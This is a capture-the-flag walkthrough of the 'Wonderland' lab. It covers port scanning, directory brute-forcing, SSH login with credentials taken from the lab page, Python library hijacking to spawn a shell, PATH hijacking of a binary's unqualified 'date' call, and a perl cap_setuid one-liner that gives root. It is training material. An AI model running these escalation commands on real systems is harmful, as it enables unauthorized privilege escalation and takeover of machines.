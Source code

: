# Wonderland - Fall down the rabbit hole and enter wonderland - Medium

## Objectives - Find the flag in user.txt and root.txt

I started by running a basic nmap scan on the target IP address

<p><span style="color:red"><em>nmap -A 10.10.97.29</em></span></p>

### With this scan we found that port 22 (ssh) and 80 (HTTP) are open. My next step was to curl the webpage to see if that would revel any vulnerabilities, it did not. Never fear, the next thing I did was run dirbuster on the webpage. Eventully I run down the web directories to: 

<p><span style="color:red"><em>http://10.10.97.29/r/a/b/b/i/t/</em></span></p>

Next I inspected the webpage for more information and found what looks to be credentials for alice.

<p><span style="color:red"><em>alice:HowDothTheLittleCrocodileImproveHisShiningTail</em></span></p>

Next Im going to try those credentials to access the SSH server. 

<p><span style="color:red"><em>ssh alice@10.10.97.29</em></span></p>

Im in!! The first thing we see once we log into alices computer is root.txt and a .py file. The Python file is below:


```
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

[... REDACTED ...]

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
By doing:
<p><span style="color:red"><em>sudo -l</em></span></p>
We can see alice may run the folloiwng commands:


```
(rabbit) /usr/bin/python3.6 /hom/alice/walrus_and_thecarpenter.py
```

Next I created a .py file named random so that it would be imported and run the next time walrus_and_the_carpenter.py was run. In this python file I put:

```
import pty;pty.spawn("/bin/bash")
```

Finally the last thing I need to do is run the python file. 

<p><span style="color:red"><em>sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py</em></span></p>

Now that I was rabbit, I can starting looking around to see if there is anything else I can do to try and get root, luckily for me rabbit contained a file called teaParty. When you run strings on the file, this appears:

```
/bin/echo -n 'Probably by ' $$ date --date='next hour' -R
```
 This command grabs the current dtae and time then adds an hour to it. Since date is not called with a specified path, we are able to exploit that by first running the command:
 
<p><span style="color:red"><em>export PATH=/tmp:$PATH</em></span></p>

then 

<p><span style="color:red"><em>echo $PATH</em></span></p>

to ensure we did it correctly. 
Next I created a shell script named date in the /tmp directory and made it executable by using the command:

<p><span style="color:red"><em>chmod  +x /tmp/date</em></span></p>

The code inside of the shell scirpt is just a simple:

<p><span style="color:red"><em>#!/bin/bash /bin/bash</em></span></p>

The only thing left to do know in order to gain access to hatter is to ./teaParty. After gaining access we can we that hatter contains a password.txt file.

```
WhyIsARavenLikeAWritingDesk?
```

Next using LinPEAS, a linux vulnerability scanner, I discovered that hatter has access to /usr/bin/pearl = cap_setuid+ep. Using the GTFObins exploit we gain root access. [GRFOBin](https://gtfobins.github.io/gtfobins/perl/)

<p><span style="color:red"><em>perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
</em></span></p>

After getting root access we can cat the root.txt and usr.txt files and complete the challenge. 
